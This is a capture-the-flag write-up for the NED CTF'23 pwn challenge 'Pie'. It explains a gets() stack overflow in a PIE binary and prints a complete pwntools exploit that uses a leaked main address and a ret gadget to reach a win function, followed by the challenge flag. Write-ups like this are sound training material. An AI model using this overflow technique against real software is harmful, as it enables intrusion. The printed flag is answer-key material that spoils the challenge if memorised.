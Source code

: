 ```yaml
---
title: NED CTF'23 - Pwn - Pie
date: '2023-07-03'
tags: ['pwn', 'nedctf', 'buffer-overflow']
draft: false
summary: Given the leaked address of main function, calculating offset and then overwriting the return address to the win function.
---
```


## Challenge Description

Leaks are everywhere.

Author: [Saad Akhtar](https://twitter.com/ssaadakhtarr)

```bash
nc 159.223.192.150 9004
```

![chal-info](/static/writeups/nedctf/pwn/pie0.png)

## Solution

Downloading the `pie.zip`, we get the following files

![files](/static/writeups/nedctf/pwn/pie1.png)

The `file` security checks on the binary are as follows

![file](/static/writeups/nedctf/pwn/pie2.png)

Let's run the `pie` binary to check what it does

![run](/static/writeups/nedctf/pwn/pie3.png)

Okay, let's disassemble and check the functions inside ghidra

![ghidra](/static/writeups/nedctf/pwn/pie4.png)

The functions that stand out are `vuln` and the `win` function. By now, we know that `win` often simply reads the `flag.txt` and all we have to do is invoke it. Let's check the `vuln` function:

```c:vuln

void vuln(void) {
  char local_28 [32];

  printf("Leaked address: %p\n",main);
  printf("For the last time could you tell me your name please? ");
  gets(local_28);
  printf("\nThank you %s",local_28);
  return;
}
```

Well, the `gets` is here, once again. The buffer is `32` bytes long. The `main` function is also leaked. So, now we know that we need to do the following:

1. Calculate the offset of the `win` function from the `main` function.
2. Overflow the buffer and overwrite the return address to the `win` function.
3. Get the flag.

### 1. Calculating the offset

To do that, we can utilize pwntools, and use the `ELF` module to calculate the offset. By firstly getting the address of main, we change the local ELF's main to re-align to the leaked address

Now, the address of `win` function will become `elf.sym.win`. We also need to add a `ret` gadget, which will be used to return to the `win` function. To do that, we can use the `ROP` module of pwntools. The code for this will be as follows:

The code for this will be as follows:

```python:offset
#!/usr/bin/env python3

from pwn import *
import sys
import re

_bin = './pie'
elf = context.binary = ELF(_bin)

if len(sys.argv) == 2 and sys.argv[1] == 'remote':
	io = remote('159.223.192.150', 9004)
else:
	io = process(_bin)

data = io.read().decode('latin-1')
main_func = re.findall('Leaked address: (.*?)\n', data)[0]
info(f"Address for main function: {main_func}")

info("Patching the ELF address:")
elf.address = int(main_func, 16) - elf.sym.main

info(f"win function found at: {elf.sym.win}")
win_func = p64(elf.sym.win)

rop = ROP(elf)
ret = p64(rop.ret.address)
```

### Overflowing the buffer and getting the flag

Now, since we have the first part done, next thing we need to do is craft the payload. We have the address of `win` function, all we need to do is overwrite the instruction pointer to the address and then we're golden. To do that, we need to calculate the offset of the buffer. Once again, basic math; 32 + 8, i.e. 40. Hence, the offset is 40.

```python:payload
payload = b"A" * 40
payload += ret
payload += win_func
io.sendline(payload)
```

This is the gist of it. The final exploit is:

```python:exploit.py
#!/usr/bin/env python3

from pwn import *
import sys
import re

_bin = './pie'
elf = context.binary = ELF(_bin)

if len(sys.argv) == 2 and sys.argv[1] == 'remote':
	io = remote('159.223.192.150', 9004)
else:
	io = process(_bin)

data = io.read().decode('latin-1')
main_func = re.findall('Leaked address: (.*?)\n', data)[0]
info(f"Address for main function: {main_func}")

info("Patching the ELF address:")
elf.address = int(main_func, 16) - elf.sym.main


info(f"win function found at: {elf.sym.win}")
win_func = p64(elf.sym.win)

rop = ROP(elf)
ret = p64(rop.ret.address)

offset = 40
payload = b'A' * offset + ret + win_func # the payload wasn't working with `flat`.

io.sendline(payload)
buf = io.recv()
try:
	flag = buf.split(b'\n')[-2]
	info(f"Flag: {flag.decode()}")
except:
	info("No flag. An error occurred.")
```

![flag](/static/writeups/nedctf/pwn/pie5.png)

```md
Flag: NCC{pie_byp4ssed_007}
```
